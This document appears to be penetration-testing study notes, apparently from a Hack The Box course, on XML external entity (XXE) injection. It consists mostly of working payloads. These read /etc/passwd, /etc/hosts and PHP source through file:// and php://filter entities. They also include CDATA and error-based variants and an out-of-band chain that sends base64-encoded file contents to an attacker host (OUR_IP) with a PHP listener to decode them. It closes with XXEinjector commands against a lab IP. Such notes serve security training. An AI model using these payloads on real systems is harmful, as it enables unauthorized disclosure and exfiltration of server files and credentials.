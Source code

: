 
### Identify

We can intercept request with Burp Suite and then see in the request if the data is being sent via XML

We can check in the response if we see any reflected values and if so it should be a good start on where to attempt injection


injecting xml entity for file disclosure
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

injecting xml entity for source code disclosure [PHP Only]
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```


## Advanced Methods


#### CDATA Method

Wrapping data in in CDATA Tag for arbitrary output [Must be all internal entities unless using parameter entities]
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
```

Using XML Parameter Entities [Example must be referenced externally]
```xml
<!ENTITY joined "%begin;%file;%end;">
```

Creating external resource holding xml parameter entities
```shell-session
Auzzie@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Auzzie@htb[/htb]$ python3 -m http.server 8000
```

#### Error Based Method


Moving to a part of the site that displays error for our target page and we can retrieve a different set of output

Reference external resource with DTD
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Creating external resource to host holding payload for file disclosure
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```


## Blind XXE Injection


### Out-Of-Band

XML payload to upload to victim site
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

create external xml resource to host initial payload for file disclosure and OOB request
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

php script to decode OOB of request
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

host php server
```shell-session
php -S 0.0.0.0:8000
```


### Automated OOB

XXEinjector Tool
```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

Using XXEinjector (Just use starting tag of XML data request sent)
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Command for XXEInjector
```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
**Note: In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there "Logs/IP/etc/"